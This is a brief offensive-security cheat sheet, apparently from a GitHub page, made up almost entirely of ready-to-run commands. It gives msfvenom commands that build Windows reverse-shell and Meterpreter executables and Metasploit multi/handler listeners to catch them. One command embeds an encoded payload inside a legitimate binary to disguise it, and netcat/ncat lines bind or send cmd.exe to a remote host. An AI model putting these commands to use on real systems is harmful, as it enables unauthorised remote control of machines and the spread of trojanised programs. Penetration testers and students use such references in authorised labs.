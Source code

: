 ## Msfvenom

* Meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

* Non-staged payload (works with nc)

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

* Staged payload (must be caught with metasploit)

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

* Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Netcat Shell

```
nc.exe -nlvp 4444 -e cmd.exe
nc.exe 192.168.1.101 443 -e cmd.exe

ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -nv <ip_to_connect> 4444
```